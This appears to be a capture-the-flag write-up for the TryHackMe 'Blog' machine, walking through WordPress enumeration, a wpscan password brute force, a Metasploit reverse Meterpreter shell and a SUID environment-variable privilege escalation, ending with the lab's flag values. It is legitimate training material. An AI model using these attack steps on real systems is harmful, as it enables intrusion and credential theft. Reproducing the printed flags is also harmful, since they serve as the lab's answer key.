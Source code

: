 ```yaml
---
title: "TryHackMe - Blog"
date: 2025-03-26 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, metasploit, brute force]

---
```


## Introduction

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

## Reconnaissance

```console
nmap -sC -sV -Pn blog.thm  
```
```console
wpscan --url http://www.blog.thm 
```

## Exploitation
From the scans, I learn that the WordPress version is 5.0, and I launch Metasploit in search of ready-made exploits.


```console
msfconsole
search wordpress 5.0
```

I see several potential exploits to use.


```yaml
0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

```

In this case, I decide to use **exploit/multi/http/wp_crop_rce**. However, to run it, I will need the username and password of the user.

```yaml
Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    *yes*      The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                         tasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if pro
                                         vided)
   USERNAME                    *yes*       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


```

I use this again with **wpscan** 

```console
wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt
```

I find two users: **kwheel** and **bjoel** 


```yaml
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

I will now try to obtain the password for this account using the bruteforce method. I can do this in several ways, for example by using **Hydra**, but in this case, I decided to stick with **WPScan**.

```console
wpscan --url blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 
```

After a short while, I manage to obtain the password using the bruteforce method.

```yaml
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                              
Trying kwheel / westham Time: 00:01:52 <                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

I return to Metasploit to complete the exploit configuration.

```console
> set RHOST [MACHINE_IP]
> set LHOST [MY_IP]
> set password cutiepie1
> set username kwheel
```

and I run it

```console
> exploit
```
It was successful.
```yaml
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.x.x32870) at 2025-03-26 09:00:46 -0400
```

I check if I can use commands through Meterpreter : 

```yaml
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
```

Everything looks fine, so I proceed to the regular system shell

```console
> shell
> script -qc /bin/bash /dev/null
```

I proceed to search the users' files for flags. I find the file **user.txt** in the bjoel directory, but it is not what I'm looking for. There is also a .pdf file here


```yaml
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER

```

I start a simple Python server on the target machine to download the .pdf file to my computer

```console
> python3 -m http.server
```

and 

```console
> wget http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
```
on my machine.

```yaml
--2025-03-26 09:15:11--  http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
Resolving blog.thm (blog.thm)... 10.10.73.119
Connecting to blog.thm (blog.thm)|10.10.73.119|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69106 (67K) [application/pdf]
Saving to: ‘Billy_Joel_Termination_May20-2020.pdf’

Billy_Joel_Termination_May 100%[========================================>]  67.49K   160KB/s    in 0.4s    

2025-03-26 09:15:11 (160 KB/s) - ‘Billy_Joel_Termination_May20-2020.pdf’ saved [69106/69106]

```

From the email content, I learn that Billy Joel has been fired

```
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
```

## Privilege Escalation
I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```console
> find / -perm -u=s -type f 2>/dev/null
```

Among the list of files, my attention was drawn to :

**/usr/sbin/checker**

I try to run it

```console
> usr/sbin/checker
```

However, the program tells me that I am not an administrator

```yaml
/usr/sbin/checker
Not an Admin
```

I analyze the code using the tool **ltrace**

```console
 > ltrace /usr/sbin/checker
 ```
```yaml
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```

**getenv("admin) = nil** this means that the **admin** environment variable does not exist at the moment in the process environment. I try to set the admin environment variable manually to attempt to gain administrator privileges.

```bash
> export admin=true
```

And I run the program again.

I have root privileges!

I search through the files on the machine to find and read the flags.

```yaml
root@blog:/# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

and 

```console
find / -type f -name "root.txt" 2>/dev/null
```


<br>**user.txt :** c8421899aae571f7af486492b71a8ab7 
<br>**root.txt:**  9a0b2b618bef9bfa7ac28c1353d9f318





During my research, I found a very interesting article about exploiting WordPress sites, which I will post here for future reference.
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#xml-rpc